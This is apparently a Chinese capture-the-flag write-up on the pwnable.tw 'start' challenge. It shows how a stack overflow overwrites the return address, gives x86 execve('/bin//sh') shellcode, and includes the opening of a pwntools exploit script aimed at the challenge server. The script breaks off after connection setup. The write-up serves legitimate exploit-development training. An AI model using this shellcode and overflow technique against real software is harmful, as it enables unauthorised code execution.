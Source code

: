 在输入的过程中，用户输入的数据会从低地址开始依次覆盖栈中的内容，所以，如果用户输入长度超过20，就会把栈底的返回地址和 保存的 ESP 给覆盖了。

## GetShell

使用 `peda` 载入可执行程序后，`checksec` 分析应用启用的安全措施，如下：

![-w180](https://pan.xnure.com/OneDrive/Pics/blog/15497019083399.jpg ':size=600')

显示 NX（Not Execute）已启用，然而 `pwntools` 里的 `checksec` 命令检查 NX 是 disable 掉的，事实上也确实是 disable 的。

![-w493](https://pan.xnure.com/OneDrive/Pics/blog/15497147923942.jpg ':size=600')

既然没有任何安全措施，栈也是可执行的，我们可以直接把 shellcode 布置在栈上，然后构造参数通过 `int 80` 调用 `sys_execve` 执行 `/bin/sh`。

### 构造 shellcode

目前我们的思路已经清晰了，就是通过 `sys_execve` 执行 `/bin/sh`。依据 [Linux System Call Table 参考](https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls32.html)， `sys_execve` 仅需要一个参数：可执行文件路径，放到 ebx 中，所以，我们得把 `/bin/sh` 这个字符串放到栈中。`/bin/sh` 一共7个字符，为了凑够 8 个字节，我们把 `/bin/sh` 处理成 `/bin//sh`。

```asm
xor    eax,eax     // 清空 eax
push   eax         // 放个0到栈里，当作字符串结束
push   0x68732f2f  // "//sh" 入栈, 0x68732f2f 是 "//sh" 的 ASCII 16进制编码
push   0x6e69622f  // "/bin" 入栈。
mov    ebx,esp     // 把 "/bin//sh" 的地址赋值给 ebx，这是 sys_execve 的要求
xor    ecx,ecx     // 清空 ecx
xor    edx,edx     // 清空 ecx
mov    al,0xb      // 设置调用号 0xb(11)
int 0x80           // 调用 system call
```

### PWN

在前边我们已经构造好了 shellcode，下边就使用 `pwntools` 进行本地测试以及获取 flag。

我们需要覆盖程序的返回地址达到控制程序流程的目的，所以我们需要获取 `esp` 的地址，注意地址为 `0x8048087` 的这条指令，是输出部分的代码，恰好将 `esp` 的地址赋值给了 `ecx`，我们可以将返回地址覆盖为 `0x8048087` 从而得到 `esp` 地址。

因为我们把程序返回地址修改为了输入部分，所以可以继续输入，再次输入，将 shellcode 覆盖在返回地址之后，将返回地址覆盖为 shellcode 开始的位置即可。
代码如下：

```python
# -*- coding: UTF-8
# pwnable.tw callenge "start" pwn script
import sys
from pwn import *

SHELLCODE = '''
xor    eax,eax
push   eax
push   0x68732f2f
push   0x6e69622f
mov    ebx,esp
xor    ecx,ecx
xor    edx,edx
mov    al,0xb
int    0x80
'''

NORMAL_INPUT_LEN = 0x14

if __name__ == "__main__":
    if len(sys.argv) > 1 and sys.argv[1] == 'pwn':
        proc = remote('chall.pwnable.tw', 10000)
    else:
        proc = process('./start')
```